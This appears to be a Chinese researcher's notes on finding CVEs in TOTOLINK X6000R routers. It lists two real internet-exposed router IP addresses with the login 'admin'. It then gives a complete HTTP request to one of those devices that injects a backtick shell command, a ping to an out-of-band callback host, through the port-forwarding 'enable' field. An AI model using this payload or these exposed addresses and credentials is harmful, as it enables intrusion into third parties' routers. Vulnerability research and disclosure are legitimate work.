 找到了！！！

。。。

```
http://61.71.234.62:8001
admin
```

但版本不对。。。是A3300R。。。 嘛，留着后面用呗。



嘛，X6000R的CVE找到这里也够了。等后面找到环境了再报CNVD，今天先把这一大堆CVE写了~

这个X6000R漏洞太多了，倒没必要报CNVD。后面找个漏洞少的TOTOLINK来研究。



又找到一个

```
http://182.155.104.240
admin
```



# 10. `/advance/portfwd.html` ✔️

```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 94
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/portfwd.html?token=223A30BC129975D7
Priority: u=1

{"enable":"`ping -c 2 poc.wuxln8i9.eyes.sh`","addEffect":"0","topicurl":"setPortForwardRules"}
```

![image-20241029210636955](./X6000R/images/image-20241029210636955.png)
